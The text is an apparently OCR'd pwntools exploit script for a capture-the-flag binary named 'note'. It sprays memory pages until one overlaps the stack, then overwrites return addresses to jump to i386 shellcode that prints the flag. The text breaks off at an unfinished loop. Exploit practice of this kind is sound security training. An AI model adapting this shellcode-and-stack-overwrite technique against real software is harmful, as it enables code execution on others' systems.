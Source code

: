 ```python
    API around the note bin, using pwn.process
    """
    def __init__(self):
        self.stack_curr = INITIAL_STACK
        self.p = process('./note')
        time.sleep(10.1)  # wait for p to finish spewing its nonsense
        self.current_attempt = 0
        self.shellcode = asm(
            shellcraft.i386.linux.cat('flag'), arch='i386', os='linux')

    @staticmethod
    def get_page_loc(outp):
        outp = outp.split(b'\n')
        wanted = next(filter(lambda x: b'[' in x and b']' in x, outp))
        offset = eval('0x' + wanted[wanted.find(b'[')+1:wanted.find(b']')].decode())
        return offset

    def create_page(self):
        self.p.send(b'1\n')
        self.stack_curr -= 0x430

    def write_page(self, which, b):
        b = b'2\n' + which + b'\n' + b + b'\n'
        self.p.send(b)
        self.stack_curr -= 0x430

    def delete_page(self, i):
        self.p.send((f'4\n{i}\n').encode())
        self.stack_curr -= 0x430

    def note_exit(self):
        self.p.sendline(b'5')

    def shellcode_page(self):
        self.create_page()
        self.write_page(b'0', self.shellcode)
        offset = self.get_page_loc(self.p.clean())
        return offset

    def fill_mem_table(self):
        shellcode_loc = self.shellcode_page()
        [self.create_page() for _ in range(255)]
        locs = [self.get_page_loc(outp) for outp in
                    self.p.clean().split(b'1. create note')[:-1]]

        for i in range(len(locs)):
            self.current_attempt += 1
            print(self.current_attempt, hex(locs[i]))

            if (locs[i] >= self.stack_curr) or (locs[i] + PAGE_SIZE >= self.stack_curr):
                print('lucky s_mmap; grabbing flag...')
                self.write_page(str(i+1).encode(), p32(shellcode_loc) * 1023)
                self.note_exit()
                print(self.p.clean(10).decode())
                exit(0)

    def clear_mem_table(self):
        [self.delete_page(i) for i in range(256)]


note = Note()
while True:
    try:
```